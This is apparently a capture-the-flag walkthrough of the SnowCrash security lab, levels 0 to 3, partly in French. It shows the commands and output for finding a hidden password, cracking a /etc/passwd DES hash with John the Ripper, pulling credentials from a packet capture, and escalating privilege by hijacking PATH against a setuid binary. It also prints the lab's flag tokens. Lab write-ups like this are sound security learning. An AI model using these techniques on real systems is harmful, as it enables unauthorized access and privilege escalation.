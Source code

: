 # snow-crash

## level 0
level00@SnowCrash:~$ find / -user "flag00" 2> /dev/null 
/usr/sbin/john
/rofs/usr/sbin/john
level00@SnowCrash:~$ cat /usr/sbin/john 
cdiiddwpgswtgt


https://www.dcode.fr/chiffre-cesar
nottoohardhere


level00@SnowCrash:~$ su flag00
Password: nottoohardhere
Don't forget to launch getflag !
flag00@SnowCrash:~$ getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias

## level 1

level01@SnowCrash:~$ cat /etc/passwd


flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

vim hash.txt
                                                                                                                     
john hash.txt 
Created directory: /home/ju/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 3072 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (flag01)     
1g 0:00:00:00 DONE 2/3 (2025-01-15 17:11) 50.00g/s 3750Kp/s 3750Kc/s 3750KC/s 123456..2nesbitt
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$

## level 2

└─$ scp -P 4242 level02@192.168.1.36:/home/user/level02/level02.pcap .                           


wireshark level02.pcap 

ft_wandr...NDRel.L0L(0d)(000d0a)(01)

7f

ft_wandr...NDRel.L0L(0d)(000d0a)(01)
ft_waNDReL0L(0d)(000d0a)(01) 
ft_waNDReL0L

level02@SnowCrash:~$ su flag02
Password: 
Don't forget to launch getflag !
flag02@SnowCrash:~$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
flag02@SnowCrash:~$ 


## level 3

Une fois l executable decompilé avec ghidra

int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}

("/usr/bin/env echo Exploit me");

on voit un appel systeme sur echo 
on change le path pour executer la commande getflag
whereis getflag
changement du path: echo '/bin/getflag' > '/tmp/echo'
unset PATH
export PATH=/tmp
./level03

flag='qi0maab88jeaj46qoumi7maus'

